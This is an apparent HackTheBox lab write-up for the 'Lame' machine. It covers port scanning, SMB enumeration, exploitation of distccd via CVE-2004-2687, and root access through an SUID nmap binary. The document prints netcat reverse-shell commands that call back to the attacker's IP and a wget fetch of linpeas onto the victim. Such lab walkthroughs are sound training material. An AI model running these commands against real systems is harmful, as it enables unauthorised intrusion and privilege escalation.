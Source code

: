 # HTB_Writeups - Lame

Started off with a nmap scan.
nmap -Pn -T5 -sV -sC -A -p- -oN lame_nmap.txt 10.10.10.3
TEs3
While that was scanning I went to go check out to see if the website is up. But I don't get anything back and you'll see why when the results are done.

We get back some nice info to start us off.
Port 80 isn't open so there was no site for me to check.
But there was other ports open such as port 21 with the version number of vsftpd 2.3.4 (This version of vsftpd is vulnerable to backdoor command execution
CVE-2011-2523) I couldn't get it to work though. So I moved on. If you can't get something to work, don't spend to much time on it. Look at the next route you can take and if you get stuck
again then go back and try to repeat your steps to make sure you didn't make a typo somewhere.
 

 

 
I see that smb is open. 139/445. I run smbmap -H 10.10.10.3 and get back some users.
 

 
we can see that tmp is READ, WRITE. Lets login and see what we can find.
I use smbclient \\\\10.10.10.3\\tmp and we get a hit. I use ls to see what we can find. Unfortunately there is nothing here either. We could use
put and get files here but there is no port 80 open for us to execute the files to gain a shell from here. Some bad luck but we got more info so lets keep looking.
 

 
I go back to the nmap results and see port 3632 is open and it gave us the version of application running. distccd v1
I go to google and search for "distccd v1 exploit" first link brings us to https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855
after reading the exploit it seems to generate a random alpha numeric string. Reads the string. And looks for the trigger exploit which is command, host, port
If it is able to connect to the host it will send the payload and hopefully give us a reverse shell.
 
Let's give it a try. I started by copying the code and writing it to a file naming it CVE-2004-2687.py, did chmod +x CVE-2004-2687.py
the file is ready to be used. First I started a listener on my attacking machine with nc -lvnp 9001 and then used the following command
./CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" No good, got errors. Then I tried.
python3 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" I got a connected to remote service Ok but then the
socket timed out instantly killing the connection. I went back to the exploit and read the comments, it mentioned that python3 is to new.
So I was going to work my way down from python3 to python. Next up,
python2 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" Success, we get a shell!
 

 

 
Let's upgrade the shell. I used the following.
python -c 'import pty; pty.spawn("/bin/bash")' python3 and python2 didn't work.
export TERM=xterm
stty raw -echo && fg
enter
enter
 
We're a normal user daemon. I started off with sudo -l but it asked for a password. Let's move on.
I look around a bit and cd /home directory and do a ls and see what's there. Nothing good in the user directory but I did go into makis and find the user.txt file. I do a cat user.txt at it and we get out our first flag.
 

 

 
Next, let's head over to the tmp directory and try to transfer over some enumeration files like linpeas.sh
I go to my attacking machine on my transfers directory where I store all my enumeration files, scripts, images, anything that can be used to help us get an edge on the victim machine.
I use python3 -m http.server 80 get the server up and running.
On the victim machine ill be in the /tmp directory and use wget://10.10.14.10/linpeas.sh which is my attacking machines ip from HackTheBox.
The file gets transferred over no problem. I use the chmod +x linpeas.sh making it an executable file.
I use ./linpeas.sh and it kicks off no problem. We get back a lot of results. Several vulnerabilities, but one in particular catches my eye with the yellow red highlight.
 


 

 
the /usr/bin/nmap suid
I head over to https://gtfobins.github.io/ and search for nmap
I cd /usr/bin where the suid is located.
I start off with shell code (a) and nothing happened. So I keep going down the list.
Shell (b) worked!
 

 
we can now cd /root and see what is there which is the root.txt flag!
we have successfully rooted this box!
 

 

 

